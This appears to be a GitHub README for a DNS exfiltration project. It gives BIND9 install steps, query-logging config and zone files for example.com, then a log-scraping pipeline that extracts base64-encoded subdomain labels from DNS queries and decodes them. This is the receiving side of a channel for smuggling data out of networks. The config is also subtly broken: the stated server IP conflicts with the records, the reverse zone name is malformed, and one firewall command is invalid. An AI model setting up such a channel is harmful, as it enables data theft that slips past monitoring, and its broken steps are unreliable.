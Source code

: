 # DNS Exfiltration

## DNS Server Bind
The server I used for this project is DNS Server Bind
```
sudo apt-get install -y bind9
```
## Config
### Log file
Create file for storing log
```
sudo mkdir /var/log/named/qrlog
```
### /etc/bind/named.conf
```
include "/etc/bind/named.conf.options";
include "/etc/bind/named.conf.local";
include "/etc/bind/named.conf.default-zones";

logging{
	channel querylog{
		file "/var/log/named/qrlog";
		print-category yes;
		print-time yes;
	};
	category queries{ "querylog";};
};
```
### /etc/bind/named.conf.local
```
zone "example.com" IN {
	type master;
	file "/etc/bind/forward.example.com";	
};

zone "110.168.192.in-addr-arpa" IN {
	type master;
	file "/etc/bind/reverse.example.com";
};
```
### /etc/bind/forward.example.com
My address DNS Server is `192.168.110.154`
```
;
; BIND data file for local loopback interface
;
$TTL	604800
@	IN	SOA	server.example.com. root.server.example.com. (
			      2		; Serial
			 604800		; Refresh
			  86400		; Retry
			2419200		; Expire
			 604800 )	; Negative Cache TTL
;
@	IN	NS	server.example.com.
@	IN	A	192.168.110.153
server	IN	A	192.168.110.153
host 	IN	A	192.168.110.153
```
### /etc/bind/reverse.example.com
```
;
; BIND data file for local loopback interface
;
$TTL	604800
@	IN	SOA	server.example.com. root.server.example.com. (
			      2		; Serial
			 604800		; Refresh
			  86400		; Retry
			2419200		; Expire
			 604800 )	; Negative Cache TTL
;
@	IN	NS	server.example.com.
@	IN	PTR	example.com.
server	IN	A	192.168.110.153
host 	IN	A	192.168.110.153
153	IN	PTR	server.example.com.
```
### /etc/resolv.conf
```
nameserver 192.168.110.153
search example.com
```
## Validation and run bind
### Run bind
```
# If firewall is turn on, you must allow bind9
sudo status ufw
# Enable bind9
sudo systemctl enable bind9
# Restart bind9
sudo systemctl restart bind9
```
## Extracting and decoding
### Extracting data
```
sudo egrep -o "[a-zA-Z0-9+/]+={0,2}[a-zA-Z0-9+/]+={0,2}.example.com" /var/log/named/qrlog | cut -d . -f1 | uniq | awk '!a[$0]++' > ~/Desktop/data
```
### Base64 decoding
```
sudo base64 -d ~/Desktop/data > ~/Desktop/decoded.txt
```
